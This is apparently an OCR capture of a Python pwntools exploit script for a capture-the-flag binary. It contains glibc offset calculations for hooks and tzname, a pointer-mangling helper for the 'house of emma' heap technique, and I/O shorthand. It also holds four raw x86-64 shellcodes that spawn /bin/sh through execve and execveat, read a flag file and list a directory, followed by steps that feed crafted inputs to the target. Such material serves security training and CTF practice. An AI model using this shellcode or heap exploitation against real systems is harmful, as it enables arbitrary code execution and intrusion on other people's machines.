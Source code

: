 ```python
            return ofs_malloc_hook + (ofs_malloc_hook - ofs_realloc_hook) * 2

    else:
        # libc-2.34 removed hooks
        ofs_tzname = libc.sym.tzname
        if ofs_tzname is None:
            return None
        if context.bits == 32:
            return ofs_tzname - 0x460
        else:
            return ofs_tzname - 0x8A0


def ROL(content, key):
    # house of emma
    # ROL(gadget_addr ^ fake_pointer_guard, 0x11)
    tmp = bin(content)[2:].rjust(64, "0")
    return int(tmp[key:] + tmp[:key], 2)


# dbgaddr(0x12AC, PIE=True)
# dbg("b _IO_wfile_overflow")

s = lambda str: p.send(str)
sl = lambda str: p.sendline(str)
sa = lambda delims, str: p.sendafter(delims, str)
sla = lambda delims, str: p.sendlineafter(delims, str)
r = lambda numb=4096: p.recv(numb)
rl = lambda: p.recvline()
ru = lambda delims, drop=True: p.recvuntil(delims, drop)
uu32 = lambda data: u32(data.ljust(4, b"\x00"))
uu64 = lambda data: u64(data.ljust(8, b"\x00"))
li = lambda str, data: log.success(str + "========>" + hex(data))

# https://www.exploit-db.com/shellcodes
execve_bin_sh = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
execveat_bin_sh = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
cat_flag = b"\x48\xb8\x01\x01\x01\x01\x01\x01\x01\x01\x50\x48\xb8\x2e\x67\x6d\x60\x66\x01\x01\x01\x48\x31\x04\x24\x6a\x02\x58\x48\x89\xe7\x31\xf6\x99\x0f\x05\x41\xba\xff\xff\xff\x7f\x48\x89\xc6\x6a\x28\x58\x6a\x01\x5f\x99\x0f\x05"
ls_current_dir = b"\x68\x2f\x2e\x01\x01\x81\x34\x24\x01\x01\x01\x01\x48\x89\xe7\x31\xd2\xbe\x01\x01\x02\x01\x81\xf6\x01\x01\x03\x01\x6a\x02\x58\x0f\x05\x48\x89\xc7\x31\xd2\xb6\x03\x48\x89\xe6\x6a\x4e\x58\x0f\x05\x6a\x01\x5f\x31\xd2\xb6\x03\x48\x89\xe6\x6a\x01\x58\x0f\x05"

# %%
sla("a: ", str(0xD21))
sla("b: ", str(3))

sla("a: ", str(0xD21))
sla("b: ", str(4))

sla("a: ", str(0xD41))
sla("b: ", str(5))


sla("a: ", str(0xD41))
sla("b: ", str(-1))

s = r()
# print(s)
# %%
```